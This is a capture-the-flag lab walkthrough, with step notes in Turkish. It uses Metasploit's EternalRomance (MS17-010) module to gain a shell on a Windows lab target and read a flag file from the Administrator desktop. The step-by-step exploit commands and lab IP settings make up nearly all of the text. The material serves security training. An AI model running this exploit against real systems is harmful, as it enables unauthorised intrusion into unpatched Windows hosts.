## Questions

```text
Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.
```

??? tip "Steps"

    Öncelikle Msfconsole aracını başlat:

    ```bash
    sudo msfconsole
    ```

    Aşağıdaki aramayı gerçekleştir:

    ```text
    search ms17_010
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/windows/smb/ms17_010_psexec
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.2.141
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.15.117
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Aşağıdaki komutu çalıştır:

    ```batch
    type C:\Users\Administrator\Desktop\flag.txt
    ```
